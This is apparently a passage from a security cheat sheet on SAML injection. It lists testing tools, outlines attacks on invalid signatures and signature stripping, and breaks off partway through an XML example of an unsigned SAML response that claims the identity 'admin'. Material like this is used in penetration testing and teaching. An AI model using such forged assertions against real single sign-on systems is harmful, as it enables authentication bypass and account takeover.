 # SAML Injection

> SAML (Security Assertion Markup Language) is an open standard for exchanging authentication and authorization data between parties, in particular, between an identity provider and a service provider. While SAML is widely used to facilitate single sign-on (SSO) and other federated authentication scenarios, improper implementation or misconfiguration can expose systems to various vulnerabilities.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Invalid Signature](#invalid-signature)
    * [Signature Stripping](#signature-stripping)
    * [XML Signature Wrapping Attacks](#xml-signature-wrapping-attacks)
    * [XML Comment Handling](#xml-comment-handling)
    * [XML External Entity](#xml-external-entity)
    * [Extensible Stylesheet Language Transformation](#extensible-stylesheet-language-transformation)
* [References](#references)

## Tools

* [CompassSecurity/SAMLRaider](https://github.com/SAMLRaider/SAMLRaider) - SAML2 Burp Extension.
* [ZAP Addon/SAML Support](https://www.zaproxy.org/docs/desktop/addons/saml-support/) - Allows to detect, show, edit, and fuzz SAML requests.

## Methodology

A SAML Response should contain the `<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"`.

### Invalid Signature

Signatures which are not signed by a real CA are prone to cloning. Ensure the signature is signed by a real CA. If the certificate is self-signed, you may be able to clone the certificate or create your own self-signed certificate to replace it.

### Signature Stripping

> [...]accepting unsigned SAML assertions is accepting a username without checking the password - @ilektrojohn

The goal is to forge a well formed SAML Assertion without signing it. For some default configurations if the signature section is omitted from a SAML response, then no signature verification is performed.

Example of SAML assertion where `NameID=admin` without signature.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="http://localhost:7001/saml2/sp/acs/post" ID="id39453084082248801717742013" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
    <saml2:Issuer xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" Format="urn:oasis:names:tc:SAML:2.0:nameidformat:entity">REDACTED</saml2:Issuer>
    <saml2p:Status xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol">
        <saml2p:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </saml2p:Status>
    <saml2:Assertion xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" ID="id3945308408248426654986295" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
        <saml2:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">REDACTED</saml2:Issuer>
        <saml2:Subject xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameidformat:unspecified">admin</saml2:NameID>
```